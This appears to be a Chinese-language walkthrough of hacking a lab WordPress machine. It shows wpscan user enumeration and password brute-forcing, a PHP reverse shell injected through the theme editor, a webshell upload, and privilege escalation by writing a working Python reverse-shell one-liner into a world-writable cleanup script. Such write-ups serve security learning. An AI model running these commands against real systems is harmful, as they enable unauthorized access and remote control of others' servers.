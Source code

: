     wpscan扫描WordPress，爆破后台用户名密码

    ```php

    wpscan --url http://192.168.43.184/backup_wordpress --enumerate u

    #用户名 john admin

    wpscan --url http://192.168.43.184/backup_wordpress --passwords /home/dictionary/Blasting_dictionary/常用密码.txt

    爆破用户名john 密码enigma

    不能太快，不然虚拟机会崩溃

    页面右下方login或者记住wordpress后台登录路径

    wp-login.php

    到editor里面更改header内容

    加入msfvenom生成的php反弹shell脚本

    访问/backup_wordpress/上线msf

    记得闭合php

    ```

* 提权

    ```php

    脏牛提权虚拟机崩溃了

    根据提示查找用户文件浏览各目录文件，发现位于/usr/local/bin/cleanup文件，权限为777

    内容为

    #!/bin/sh
    rm -rf /var/log/apache2/\*

    修改该文件反弹shell

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.43.8",9594));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    

    又在/var/www下上传了个一句话，连蚁剑改文件内容

    发现msf上线不了

    那就nc -lvp 9594

    能收到反向连接，但是can't access tty，不知道什么原因.....
    
    ```

## 启发

* FTP匿名访问模式
